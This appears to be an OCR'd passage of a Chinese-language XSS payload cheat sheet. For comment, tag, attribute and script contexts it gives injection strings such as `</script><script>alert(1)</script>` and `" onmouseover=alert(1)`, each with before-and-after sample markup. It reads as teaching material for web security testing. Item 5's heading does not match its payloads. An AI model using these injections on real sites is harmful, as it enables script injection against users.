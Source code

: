 * 输入Payload后

```html
<!-- --><script>alert(1)</script> -->
```

4. 当输入位于或在开放/关闭标签之间时，标签可以是 `<a>,<title>,<script>` 和任何其他HTML标签。

```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

* 示例源代码

```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

* 输入Payload后

```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5. 当输入位于HTML标签属性值中但被过滤掉了 > 时，请使用 </script>。

```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)
```

* 示例源代码

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* 输入Payload后

```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

6. 当输入位于 `<script>` 标签内部时，请使用 </script>。

```html
</script><script>alert(1)</script>
```

* 示例源代码

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* 输入Payload后

```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```
